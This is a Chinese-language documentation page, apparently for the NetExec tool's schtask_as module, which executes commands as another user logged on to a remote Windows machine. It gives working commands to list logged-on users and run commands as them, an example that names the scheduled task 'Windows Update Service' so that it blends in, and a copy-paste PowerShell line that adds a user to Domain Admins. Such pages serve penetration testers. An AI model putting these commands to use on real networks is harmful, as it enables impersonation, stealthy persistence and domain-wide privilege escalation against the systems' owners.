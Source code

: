 ```yaml
---
description: >-
  使用 schtask_as 利用已登录用户的会话执行任意命令
---
```


# 🆕 模拟已登录用户

{% hint style="warning" %}
你需要在远程目标上至少具有本地管理员权限
{% endhint %}

感谢 [@Defte\_](https://twitter.com/Defte\_) 的贡献，`schtask_as` 模块可以代表目标上有会话的其他用户执行命令。

### 1. 枚举目标上的已登录用户

```
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

### 2. 代表其他用户执行命令

```
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

### 模块选项：

```
CMD            要执行的命令
USER           要以其身份执行命令的用户
TASK           可选：设置计划任务的名称
FILE           可选：设置命令输出文件的名称
LOCATION       可选：设置命令输出文件的位置（例如 '\tmp\'）
```

示例：

```
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

用于将用户添加到域管理员组的自定义命令，方便复制粘贴：

```
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
